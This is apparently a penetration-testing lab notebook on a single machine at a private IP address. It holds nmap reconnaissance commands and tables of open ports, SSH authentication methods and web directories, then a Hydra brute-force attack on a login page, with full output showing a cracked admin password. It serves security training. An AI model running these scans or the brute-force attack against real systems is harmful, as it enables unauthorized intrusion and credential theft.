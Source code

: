 ## Initial scans
Undertake an initial TCP and UDP scans of the target machines

~~~ bash
sudo nmap [IP] -oG nmap_tcp_initial

sudo nmap [IP] -sU -oG nmap_udp_initial

sudo nmap [IP] -sn -oG nmap_network_sweep

sudo nmap [IP] -O --osscan-guess -oG nmap_os_guess

sudo nmap [IP] -p 22 -oG nmap_tcp_p25

sudo nmap [IP] -p 22 -oG nmap_tcp_p80

sudo nmap [IP] --script ssh2-enum-algos.nse -oG nmap_script_ssh2-enum-algos

sudo nmap [IP] --script ssh-auth-methods.nse -oG nmap_script_ssh-auth-methods

sudo nmap [IP] --script http-enum.nse -oG nmap_script_http-enum

~~~

## Scan results
|port|type|service|status|scan log|notes|
|----|----|-------|------|--------|-----|
|22|tcp|ssh|open|nmap_tcp_initial|none|
|80|tcp|http|open|nmap_tcp_initial|none|
## Users
|username|password|service|hash type|log|free text|
|----|----|-------|------|--------|-----|
|none|none|none|none|none|none|
|none|none|none|none|none|none|
## Operating system
Linux
## Authentication methods
|port|service|authentication method|notes|
|----|-------|----|-----|
|22|ssh|public key|none|
|22|ssh|password|none|
## HTTP enumeration
|url|folder|file|note|
|---|------|----|----|
|[IP]/login.php|N/A|login.php|none|
|[IP]/css/|css|N/A|none|
|[IP]/img/|img|N/A|N/A|none|
|[IP]/js/|js|N/A|none|
|[IP]/lib/|lib|N/A|none|

### Hydra
Using hydra to to brute force the web page at [IP]/login.php

~~~ bash

# this command was run on the login page 
# 192.168.162.202/login.php
hydra -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/password.lst 192.168.162.202 http-post-form "/login.php:username=^USER^&password=^PASS^&login=login:Username password combination is wrong\!"

#############
admin
microsurgery
#############

hydra -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/password.lst 192.168.162.202 http-post-form "/login.php:username=^USER^&password=^PASS^&login=login:Username password combination is wrong\!"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-17 20:09:12
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1237572 login tries (l:14/p:88398), ~77349 tries per task
[DATA] attacking http-post-form://192.168.162.202:80/login.php:username=^USER^&password=^PASS^&login=login:Username password combination is wrong!
[STATUS] 732.00 tries/min, 732 tries in 00:01h, 1236840 to do in 28:10h, 16 active
[STATUS] 737.33 tries/min, 2212 tries in 00:03h, 1235360 to do in 27:56h, 16 active
[STATUS] 750.43 tries/min, 5253 tries in 00:07h, 1232319 to do in 27:23h, 16 active
[STATUS] 752.87 tries/min, 11293 tries in 00:15h, 1226279 to do in 27:09h, 16 active
[STATUS] 748.77 tries/min, 23212 tries in 00:31h, 1214360 to do in 27:02h, 16 active
[STATUS] 751.47 tries/min, 35319 tries in 00:47h, 1202253 to do in 26:40h, 16 active
[STATUS] 749.84 tries/min, 47240 tries in 01:03h, 1190332 to do in 26:28h, 16 active
[STATUS] 618.28 tries/min, 48844 tries in 01:19h, 1188739 to do in 32:03h, 5 active
[80][http-post-form] host: 192.168.162.202   login: admin   password: microsurgery
[STATUS] 961.88 tries/min, 91379 tries in 01:35h, 1146204 to do in 19:52h, 5 active
[STATUS] 857.00 tries/min, 95127 tries in 01:51h, 1142456 to do in 22:14h, 5 active
[STATUS] 416.67 tries/min, 95146 tries in 03:48h, 1142437 to do in 45:42h, 5 active

~~~
